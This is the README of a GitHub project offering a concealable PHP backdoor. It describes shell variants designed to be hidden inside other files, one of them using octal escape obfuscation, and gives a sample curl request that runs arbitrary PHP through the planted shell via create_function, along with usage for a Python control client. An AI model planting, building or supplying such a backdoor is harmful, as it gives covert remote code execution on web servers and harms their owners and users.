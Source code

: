 # php-shell
Lightweight easy to hide PHP backdoor


## Shell variants

#### shell.php

The one line PHP backdoor. Works both as a standalone file or inserted inside another file. Each instruction can be hidden separately as long as the order is preserved.

#### shellp.php

Alternative version for **shell.php**. Non printable characters are replaced with octal escape sequences. 

#### shellm.php

Alternative version for **shell.php**. Instructions are further broken down and are more easy to hide inside another script.

#### shellmp.php

Alternative version for **shellm.php**. Non printable characters are replaced with octal escape sequences. 

## Example

    curl 'http://example.com/shell.php' -H 'Content-Type: application/x-www-form-urlencoded' --data '_=create_function&POST=echo+%27Hello+world%27%3B'

## Python client

**Requirements**

    pip install urwid
 
**Usage**

    python client.py http://example.com/shell.php
